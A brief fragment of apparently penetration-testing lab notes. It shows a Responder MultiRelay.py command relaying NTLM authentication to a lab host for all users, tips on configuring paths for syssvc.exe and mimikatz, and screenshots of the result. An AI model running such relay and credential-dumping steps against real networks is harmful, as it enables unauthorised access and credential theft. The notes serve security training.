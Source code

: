 ```
python /usr/share/responder/tools/MultiRelay.py -t 192.168.56.119 -u ALL
```

if you get error while running the system commmands just edit the multirelay config file and add the right path for syssvc.exe and mimikatz which can be found with ‘locate MultiRelay' commnad:

![](<../../.gitbook/assets/image (215).png>)

#### after triggering the host we have this:

![](<../../.gitbook/assets/image (227) (1).png>)
